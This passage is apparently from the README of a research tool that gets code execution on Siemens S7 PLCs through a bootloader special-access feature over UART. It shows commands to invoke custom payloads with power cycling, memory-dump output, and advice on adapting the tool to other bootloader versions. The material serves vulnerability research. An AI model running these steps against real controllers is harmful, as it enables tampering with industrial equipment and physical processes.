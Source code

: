 In this example, we dump 256 bytes starting from offset `0x691E28` of the PLC memory. Once utility dump the memory, it place it in `uart_rce/` folder with the prefix `mem_dump_` plus start and end range address (e.g., `mem_dump_00691e28_00691f28`).

### DEMO 5: Generic Payload Invocation with Custom Arguments

This demonstrates using the generic `invoke` action to run a custom payload with specific arguments.

**With automated power switching:**
```console
# Ensure client.sh is configured. Replace <PORT>, path/to/custom.bin, arg1, arg2 accordingly.
# This example assumes client.sh can pass through arguments to client.py's invoke action.
# You might need to adapt client.sh or call client.py directly if client.sh doesn't support this well.
sh client.sh --switch-power --powersupply-fx3u-ip 192.168.1.18 --powersupply-fx3u-port 502 --powersupply-fx3u-output Y0 --powersupply-delay=1 invoke --payload path/to/your/custom_payload.bin -a arg1 arg2
```

**With manual power cycle using `--no-power-supply`:**
```console
# Replace <PORT> with the TCP port socat is listening on.
# Manually power cycle the PLC.
python3 client.py --port <PORT> --no-power-supply invoke --payload path/to/your/custom_payload.bin -a arg1 arg2
```
Ensure `path/to/your/custom_payload.bin` points to your compiled payload and `arg1 arg2` are the arguments your payload expects.



## Possible Issues: 

The client utility generally inform you about existence of special access feature on the PLC bootloader. It also fetch the bootloader version from the PLC, as shown below:

```console
Looping now
[+] Got connection
[+] Got special access greeting: -CPU [2d435055]
[*] sending packet: 0200fe
[+] Got PLC bootLoader version: V4.2.1
[*] sending packet: 04803bc27f
```


Our utility currently only supports S7 bootloader version `4.2.1`. The client utility can inform you which bootloader version you are using but fails to communicate with stager or upload the payload. To use it with different S7 PLC with other bootloader version, you probably need to dump the new bootloader from the PLC SPI flash (no desoldering required) and identify various hardcoded function addresses we have in `uart_rce/payloads/`, `uart_rce/stager/` and `uart_rce/lib/`. 



